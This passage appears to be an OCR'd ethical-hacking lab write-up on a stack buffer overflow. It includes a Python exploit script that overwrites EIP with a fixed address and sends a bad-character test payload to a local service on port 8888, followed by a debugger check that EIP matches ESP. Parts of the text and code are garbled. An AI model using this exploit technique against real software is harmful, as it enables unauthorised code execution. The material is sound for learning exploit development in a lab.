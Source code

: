 `*#Global attributes*`
`*ip_address="127.0.0.1"*`
`*offset = 1052*`
`*before_eip = b"A"offset*`
`*eip = b"\x17\x91\x61\x6d" #0x6d 61 91 17*`

`*badchars = (b"\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f"*`
`*b"\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f"*`
`*b"\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f"*`
`*b"\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f"*`
`*b"\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f"*`
`*b"\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf"*`
`*b"\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf"*`
`*b"\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")*`

`*payload = before_eip + eip + badchars*`
`*def makeConnection():*`

    `**s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)**`
    `**s.connect((ip_address, 8888))**`
    `**s.send(payload)**`


`*if _name_=='_main_':*`
    `*makeConnection()`*

To verify if this is workig, we will run the program and the program will stop in our breakpoint, after that we can try to go to the nest instruction and EIP must be the same as ESP

![](https://github.com/flucasd7/Ethical-Hacking/blob/main/Pasted%20image%2020240324182039.png)

We verify that the ESP is the same as EIP and we are entering to the DLL program.
